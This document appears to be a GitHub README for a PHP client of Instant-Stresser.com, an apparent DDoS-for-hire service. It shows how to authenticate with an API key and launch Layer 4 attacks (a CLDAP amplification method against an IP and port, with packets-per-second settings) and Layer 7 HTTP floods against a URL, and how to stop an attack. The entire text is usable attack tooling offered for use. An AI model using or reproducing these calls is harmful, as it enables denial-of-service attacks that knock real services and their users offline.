 # Instant-Stresser-API
Sample API usage of Instant-Stresser.com

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://instant-stresser.com/help/methodsdoc

## Authentication
```php
require 'InstantStresserAPI.php';
// UserID and API Key generated from API Manager website.
$api = new API("UserID", "your-apikey");
```

## Layer 4 Attack
```php
/* Parameters : IPv4 , Port , Time , Method , Slots, PPS */
$response = $api->startL4("1.1.1.1", 80, 15, "CLDAP", 1, 100000);
```
## Layer 7 Attack
```php
/* Parameters : URL , Time , Method , Slots , Type, Ratelimit (true = enable, false = disabled) */
$response = $api->startL7("https://example.com/", 15, "HTTP1", 1, "GET", false);
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stopAttack("1.1.1.1");
```

## API Response
```php
echo $response; // Get API response.
```
